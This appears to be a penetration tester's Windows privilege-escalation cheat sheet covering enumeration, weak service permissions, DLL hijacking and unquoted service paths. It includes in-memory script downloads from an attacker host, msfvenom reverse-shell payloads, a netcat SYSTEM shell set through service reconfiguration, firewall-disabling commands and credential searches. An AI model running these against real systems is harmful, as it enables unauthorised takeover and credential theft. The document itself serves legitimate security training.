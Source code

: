 ############################
Windows Privilege Escalation
############################

TODO
====

* https://github.com/mubix/post-exploitation
* https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
* https://github.com/pentestmonkey/windows-privesc-check
* https://github.com/togie6/Windows-Privesc
* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
* https://guif.re/windowseop
* https://lolbas-project.github.io/
* https://github.com/sagishahar/lpeworkshop
* https://ostrokonskiy.com/posts/windows-privilege-escalation.html
* https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html
* https://github.com/frizb/Windows-Privilege-Escalation
* https://github.com/rasta-mouse/Watson
* https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
* https://github.com/codingo/OSCP-2
* https://labs.portcullis.co.uk/blog/windows-named-pipes-there-and-back-again/
* https://github.com/psychomario/pyinject
* https://resources.infosecinstitute.com/poor-mans-process-migration-windows/
* https://toshellandback.com/2015/11/24/ms-priv-esc/21/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* https://github.com/skelsec/pypykatz
* https://github.com/Ben0xA/nps
* https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
* http://virgil-cj.blogspot.com/2018/02/escalation-time.html

Quick Wins
==========

1. Windows OS exploits. Google "<Windows Version> privilege escalation" for some of the more popular ones. Add "x86" or "x64" to be more specific. searchsploit can be used as well, though sometimes the name / description won't include the specific version number.

2. Program exploits. Look for non-default programs installed. Try to enumerate version. Google + searchsploit.

3. Use accesschk.exe to check for services / files with bad permissions.

4. Check for passwords in files / the registry. We might get lucky and be able to RDP in. (reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon")

5. Use "Citrix" breakout techniques if we have a GUI that is running as SYSTEM. Many ways to spawn a shell.

6. Are we running as "nt authority\\network service"? Use token kidnapping (churrasco.exe).


Information Gathering
=====================

Automated Scripts
-----------------

| **Powerless:** :download:`Powerless.bat </_static/files/Powerless.bat>` (https://github.com/M4ximuss/Powerless)
| **Windows Enumeration Script:** :download:`winenum.bat </_static/files/winenum.bat>` (https://github.com/h1gh1and3r/Pentesting/blob/master/Scripts/winenum.bat)
| **Windows Enumeration Powershell Script:** :download:`WindowsEnum.ps1 </_static/files/WindowsEnum.ps1>` (https://github.com/stillinsecure/WindowsEnum/blob/master/WindowsEnum.ps1)
| **WMIC Info Script:** :download:`wmic_info.bat </_static/files/wmic_info.bat>` (http://www.fuzzysecurity.com/scripts/files/wmic_info.rar)
| https://github.com/AlessandroZ/BeRoot

PowerUp
^^^^^^^

| https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

PowerUp is part of the PowerSploit framework. It will search for various privilege escalation methods. Either download the script onto the target and run via a PowerShell instance:

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> Import-Module .\PowerUp.ps1
    PS C:\> Invoke-AllChecks

Or run from cmd.exe directly:

.. code-block:: none

    powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

If uploading to the target is difficult, we can run from memory:

.. code-block:: none

    powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<attacker-port>/PowerUp.ps1'); Invoke-AllChecks"

WindowsEnum
^^^^^^^^^^^

**Requires PowerShell 3.0+**

| https://github.com/stillinsecure/WindowsEnum/blob/master/WindowsEnum.ps1

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> .\WindowsEnum.ps1 extended

.. code-block:: none

    C:\> powershell.exe -nologo -exec bypass bypass -file WindowsEnum.ps1 extended

Windows Exploit Suggester - Next Generation
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

| https://github.com/bitsadmin/wesng

Save the output of the :code:`systeminfo` command and pass it to the program:

.. code-block:: none

    python3 wes.py systeminfo.txt | grep --color -B5 "Privilege" | less

Sherlock
^^^^^^^^

An outdated PowerShell script which shows you exploits that are available for the current system. Either download the script onto the target and run via a PowerShell instance:

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> Import-Module .\Sherlock.ps1
    PS C:\> Find-AllVulns

Or run from cmd.exe directly:

.. code-block:: none

    powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

If uploading to the target is difficult, we can run from memory:

.. code-block:: none

    powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<attacker-port>/Sherlock.ps1'); Find-AllVulns"

**Windows Kernel Exploits:** https://github.com/SecWiki/windows-kernel-exploits

Code and (sometimes) compiled executables that exploit kernel vulnerabilities.

System Information
------------------

Information about the operating system, version, hostname, etc.

.. code-block:: none

	systeminfo
	hostname
	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
	type C:\Windows\system32\eula.txt
	type C:\Windows\System32\license.rtf

Pass the output of systeminfo to wes.py with an updated microsoft security bulletin database:

.. code-block:: bash

    python3 wes.py --update
    python3 wes.py systeminfo.txt | grep --color -B5 "Privilege" | less

Who Are We?
-----------

Methods to figure out which user we are currently logged in as.

.. code-block:: none

	whoami
	echo %username%

If neither of the above work, try:

.. code-block:: none

    title offsec && for /f "tokens=2,8" %a in ('tasklist /v ^| findstr "offsec"') do echo Current User: %b, Current PID: %a

Environment
-----------

Environment variables can often reveal interesting information:

.. code-block:: none

    set
    echo %path%

Directory Listing
-----------------

List all directories, including hidden and Alternate Data Streams (ADS):

.. code-block:: none

    dir /r

Get the list of folders and files in tree structure:

.. code-block:: none

    tree /a /f

Files
-----

Read file contents:

.. code-block:: none

    type file.txt
    powershell Get-Content file.txt

Find alternate data streams (ADS):

.. code-block:: none

    dir /R <directory>

Find alternate data streams with powershell:

.. code-block:: none

    powershell Get-Item -Path <directory> -Stream *

Read the alternate data stream (ADS) (note: only works on NT6+):

.. code-block:: none

    powershell Get-Content file.txt -Stream hidden.txt

Show file permissions:

.. code-block:: none

    cacls file.txt
    icacls file.txt
    powershell Get-Acl file | fl *

User / Group Enumeration
------------------------

List users and user groups on the machine.

.. code-block:: none

	net users
	net localgroup

List Administrators:

.. code-block:: none

    net localgroup Administrators

View User Info
--------------

List information about a specific user (use against your current user, and any users identified)

.. code-block:: none

	net user user1

Especially of interest would be any groups our user has other than "Users".

List Domain Groups
------------------

List any groups which are part of the domain.

.. code-block:: none

	net group /domain

List Members of Domain Group
----------------------------

List members of domain groups previously identified.

.. code-block:: none

	net group /domain <Group Name>

Find other Windows hosts on the network
---------------------------------------

.. code-block:: none

    net view

Drives
------

List configured disk drives.

.. code-block:: none

    wmic logicaldisk get name
    wmic logicaldisk get caption
    fsutil fsinfo drives
    powershell -Command "get-psdrive -psprovider filesystem"

List locally shared drives:

.. code-block:: none

    net share

Network
-------

Display network interfaces, the routing table, and the ARP cache for the host.

.. code-block:: none

	ipconfig /all
	route print
	arp -A

Active Connections
------------------

Display all active connections, plus any local ports that are being listened to by a process. A local address of "0.0.0.0" or "[::]" implies that the process is listening for external connections.

.. code-block:: none

	netstat -ano
    netstat /anto

Firewall
--------

Display the state of the firewall, plus the current configuration.

Note: the "netsh" command is only available from XP SP2 onwards.

.. code-block:: none

    netsh firewall show state
    netsh firewall show config
    netsh advfirewall show all
    netsh advfirewall firewall show rule profile=any name=all

Scheduled Tasks
---------------

This will usually display a long detailed list of currently scheduled tasks, including ones that run on boot.

.. code-block:: none

	schtasks /query /fo LIST /v

Look for tasks where "Run As User" is set to some user with high privileges (e.g. SYSTEM). See if we can overwrite the executable.

Viewing loaded DLLs
-------------------

View all loaded DLLs

.. code-block:: none

    tasklist /m

Find specific DLLs

.. code-block:: none

    tasklist /m | find /i <dll name>

Running Processes (with Service Names)
--------------------------------------

List all running processes, plus PID and service name.

.. code-block:: none

	tasklist /SVC

List Started Services
---------------------

List the names of services which are running.

.. code-block:: none

	net start

List Services
-------------

List all services with statuses and some other info. Run without "brief" for way more details.

.. code-block:: none

	wmic service list brief

List Installed Device Drivers
-----------------------------

.. code-block:: none

	driverquery

Check Patches
-------------

.. code-block:: none

    wmic qfe get Caption,Description,HotFixID,InstalledOn

    wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

The best strategy is to look for privilege escalation exploits and look up their respective KB patch numbers. Such exploits include, but are not limited to, KiTrap0D (KB979682), MS11-011 (KB2393802), MS10-059 (KB982799), MS10-021 (KB979683), MS11-080 (KB2592799). After enumerating the OS version and Service Pack you should find out which privilege escalation vulnerabilities could be present. Using the KB patch numbers you can grep the installed patches to see if any are missing.

Mass Rollout Files
------------------

If there is an environment where many machines need to be installed, typically, a technician will not go around from machine to machine. There are a couple of solutions to install machines automatically. What these methods are and how they work is less important for our purposes but the main thing is that they leave behind configuration files which are used for the installation process. These configuration files contain a lot of sensitive sensitive information such as the operating system product key and Administrator password. What we are most interested in is the Admin password as we can use that to escalate our privileges.

.. code-block:: none

    c:\sysprep.inf
    c:\sysprep\sysprep.xml
    %WINDIR%\Panther\Unattend\Unattended.xml
    %WINDIR%\Panther\Unattended.xml

Group Policy
------------

Group Policy preference files can be used to create local users on domain machines. When the box you compromise is connected to a domain it is well worth looking for the Groups.xml file which is stored in SYSVOL. Any authenticated user will have read access to this file.

The default location for SYSVOL is:

.. code-block:: none

    %SYSTEMROOT%\SYSVOL

Dump the current GPO for the host / user:

.. code-block:: none

    gpresult /R > gpo_results.txt

In addition to Groups.xml several other policy preference files can have the optional "cPassword" attribute set:

* Services\Services.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc980070.aspx>`__
* ScheduledTasks\ScheduledTasks.xml: `Task Inner Element <http://msdn.microsoft.com/en-us/library/cc422920.aspx>`__, `TaskV2 Inner Element <http://msdn.microsoft.com/en-us/library/dd341350.aspx>`__, `ImmediateTaskV2 Inner Element <http://msdn.microsoft.com/en-us/library/dd304114.aspx>`__
* Printers\Printers.xml: `SharedPrinter Element <http://msdn.microsoft.com/en-us/library/cc422918.aspx>`__
* Drives\Drives.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc704598.aspx>`__
* DataSources\DataSources.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc422926.aspx>`__

AlwaysInstallElevated
---------------------

If the AlwaysInstallElevated registry setting is enabled it allows users of any privilege level to install \*.msi files as NT AUTHORITY\\SYSTEM.

.. code-block:: none

    # This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

If both keys are enabled, create a .msi payload:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f msi -o /path/to/payload.msi

After uploading the payload, it can be executed using msiexec:

.. code-block:: none

    msiexec /quiet /qn /i payload.msi

| /quiet = suppress messages
| /qn = No GUI
| /i = Regular installation


Search Files / Registry
-----------------------

Search for files with filenames containing certain words:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Search certain file types for a keyword, this can generate a lot of output:

.. code-block:: none

    findstr /si password *.xml *.ini *.txt

Search the registry for keywords, in this case "password":

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

accesschk.exe
-------------

The accesschk.exe binary can be used to enumerate group permissions on Windows services. The following table shows the permissions which are useful to us:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

:download:`Download accesschk.exe </_static/files/accesschk.exe>`

List all services and the permissions each user level has on them.

.. code-block:: none

    accesschk.exe /accepteula -ucqv *

List services which the "Authenticated Users" user group have permissions over (remember to check other user groups you are a member of).

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

List permissions for a specific service:

.. code-block:: none

    accesschk.exe /accepteula -ucqv Spooler

List permissions for a specific directory:

.. code-block:: none

    accesschk.exe /accepteula -dqv "C:\Path"

Find all weak folder permissions per drive:

.. code-block:: none

    accesschk.exe /accepteula -uwdqs Users C:\
    accesschk.exe /accepteula -uwdqs "Authenticated Users" C:\

Find all weak file permissions per drive:

.. code-block:: none

    accesschk.exe /accepteula -uwqs Users C:\*.*
    accesschk.exe /accepteula -uwqs "Authenticated Users" C:\*.*

Examples
========

Weak Service Permissions
------------------------

Reconfiguring the upnphost service to execute a netcat reverse shell with SYSTEM level privileges:

.. code-block:: none

    C:\> accesschk.exe /accepteula -ucqv upnphost

    upnphost

      RW NT AUTHORITY\SYSTEM
            SERVICE_ALL_ACCESS
      RW BUILTIN\Administrators
            SERVICE_ALL_ACCESS
      RW NT AUTHORITY\Authenticated Users
            SERVICE_ALL_ACCESS
      RW BUILTIN\Power Users
            SERVICE_ALL_ACCESS
      RW NT AUTHORITY\LOCAL SERVICE
            SERVICE_ALL_ACCESS

    C:\> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : NT AUTHORITY\LocalService

    C:\> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    [SC] ChangeServiceConfig SUCCESS

    C:\> sc config upnphost obj= ".\LocalSystem" password= ""
    [SC] ChangeServiceConfig SUCCESS

    C:\> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : LocalSystem

    C:\> net start upnphost

Power Users
-----------

On Windows XP and below, users in the "Power Users" group can easily elevate themselves to fully-privileged administrators.

The following article describes some methods, but most are already covered if you have used accesschk.exe properly above: https://blogs.technet.microsoft.com/markrussinovich/2006/05/01/the-power-in-power-users/

DLL Hijacking
-------------

Source: http://www.greyhathacker.net/?p=738

If an SYSTEM-level application / service references a DLL that we have write access to, we can replace it and get a SYSTEM-level shell. If the application / service references a DLL which doesn't exist, getting a SYSTEM-level shell may still be possible.

Find executables and DLLs that are directly called by the application / service, and open them in a decompiler to find references to other DLLs.

Generally a Windows application will use pre-defined search paths to find DLLs and it will check these paths in a specific order. DLL hijacking usually happens by placing a malicious DLL in one of these paths while making sure that DLL is found before the legitimate one. This problem can be mitigated by having the application specify absolute paths to the DLLs that it needs.

You can see the DLL search order on 32-bit systems below:

1. The directory from which the application loaded
2. 32-bit System directory (C:\\Windows\\System32)
3. 16-bit System directory (C:\\Windows\\System)
4. Windows directory (C:\\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (system then user)

Sometimes an application / service attempts to load a DLL which does not exist on the machine. In these cases, Windows will attempt to find it by traversing the search paths above. Putting a DLL in 1-4 is not possible, 5 would only work for applications and not Windows services. If a user has write access to any of the directories in the Windows PATH, escalation is possible.

Check the current path:

.. code-block:: none

    echo %path%

Check access permissions with accesschk.exe or cacls:

.. code-block:: none

    accesschk.exe /accepteula -dqv "C:\Python27"

    cacls "C:\Python27"

Check status of vulnerable service. If the START_TYPE is set to AUTO_START it will launch on boot.

.. code-block:: none

    sc qc IKEEXT

Create a malicious DLL:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f dll -o payload.dll

Replace the original DLL with the malicious version and restart the application / service.

Known Vulnerable Windows Services
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. csv-table:: **Windows 7 (32/64)**
    :header: "Service", "DLL"

    "IKE and AuthIP IPsec Keying Modules (IKEEXT)", "wlbsctrl.dll"
    "Windows Media Center Receiver Service (ehRecvr)", "ehETW.dll"
    "Windows Media Center Scheduler Service (ehSched)", "ehETW.dll"

The Windows Media Center Services startup type is set to manual and status not started and will only give us only Network service privileges so it may not be much use especially with its limited privileges. It can however be started temporarily via certain scheduled tasks:

.. code-block:: none

    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\mcupdate"
    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\MediaCenterRecoveryTask"
    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\ActivateWindowsSearch"

.. csv-table:: **Windows XP**
    :header: "Service", "DLL"

    "Automatic Updates (wuauserv)", "ifsproxy.dll"
    "Remote Desktop Help Session Manager (RDSessMgr)", "SalemHook.dll"
    "Remote Access Connection Manager (RasMan)", "ipbootp.dll"
    "Windows Management Instrumentation (winmgmt)", "wbemcore.dll"
    "Audio Service (STacSV)", "SFFXComm.dll, SFCOM.DLL"
    "Intel(R) Rapid Storage Technology (IAStorDataMgrSvc)", "DriverSim.dll"
    "Juniper Unified Network Service(JuniperAccessService)", "dsLogService.dll"
    "Encase Enterprise Agent", "SDDisk.dll"

Abusing unquoted ImagePath values that contain spaces
-----------------------------------------------------

When SC starts a service, if the ImagePath contains a space then you can abuse a Windows feature which attempts to find an executable at every space location.

Find a service that has an unquoted service path:

.. code-block:: none

    reg query HKLM/system/currentcontrolset/services/SkypeUpdate
    ...
    ImagePath    REG_EXPAND_SZ    C:\Program Files (x86)\Skype\Updater.exe
    ...

When this service is started, Windows will walk the directory structure and attempt to execute an .exe at each space (C:\Program.exe, C:\Program Files.exe, etc.)

Create a malicious .exe file:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f exe -o Program.exe

Move the .exe to C:\ and restart the service.

.. code-block:: none

    copy Program.exe C:\Program.exe
    sc stop SkypeUpdate
    sc start SkypeUpdate

Disable Windows Firewall
------------------------

.. code-block:: none

    netsh advfirewall set allprofiles state off
    netsh firewall set opmode disable

Sources
=======

* http://www.fuzzysecurity.com/tutorials/16.html
